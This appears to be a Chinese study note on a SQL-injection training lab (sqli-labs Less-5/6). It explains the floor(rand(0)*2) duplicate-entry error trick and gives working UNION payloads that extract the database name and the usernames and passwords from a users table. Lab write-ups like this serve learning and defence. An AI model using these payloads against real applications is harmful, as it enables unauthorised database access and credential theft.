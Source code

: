1. rand() : 0~1随机小数
2. floor() : 向下取整
3. ceiling()
4. concat_ws() : 将括号内的数据用第一个字段连接起来 concatenate with separator
5. group by 分组语句
6. as 别名
7. count() :  count(column_name) 统计 column_name 中非 NULL 值的行，count(*) 则统计指定表中所有行的数量
8. limit 显示指定行数 limit 0,1 表示限制从第 0 项开始取 1 项



```sql
union select 1,count(*),concat_ws('-',(select database()), floor(rand(0)*2)) as a from information_schema.tables group by a
```

from information_schema.tables 为了有足够的列数

count(*) 用来统计个数

concat_ws() 用 - 将 select database() 的返回值和 floor(rand(0)*2) 的值连接起来

每一个 concat_ws(...) 都重命名为 a 并按照它进行分组，于是会出现两种键

database_name-0 和 database_name-1

该手法成功的关键在于：给它分组时算了一遍 rand , 计数时又要算一遍 rand , 就有可能出现重复定义键名的错误，从而产生报错 duplicate entry，返回我们想要看到的信息

但是，最后一步挂掉了：

```sql
union select 1,count(*),concat_ws('-',(
select group_concat(username,"-",password) from users
), floor(rand(0)*2)) as a from information_schema.tables group by a
```

页面只显示：You are in........    这是怎么回事呢？

太长了，它就不显示了

可以用 substring 解决

也可以用 concat 加上 limit 限制来解决

```sql
union select 1,count(*),concat_ws('-',(
select concat(username,"-",password) from users limit 0,1
), floor(rand(0)*2)) as a from information_schema.tables group by a
```



## less-6_updatexml
### 报错注入

其实与 less-5 一样，只是用双引号闭合

在这一题尝试用新方法解决

1. 单引号闭合不报错，双引号闭合报错：use near '"1"" LIMIT 0,1' at line 1说明是用双引号闭合的
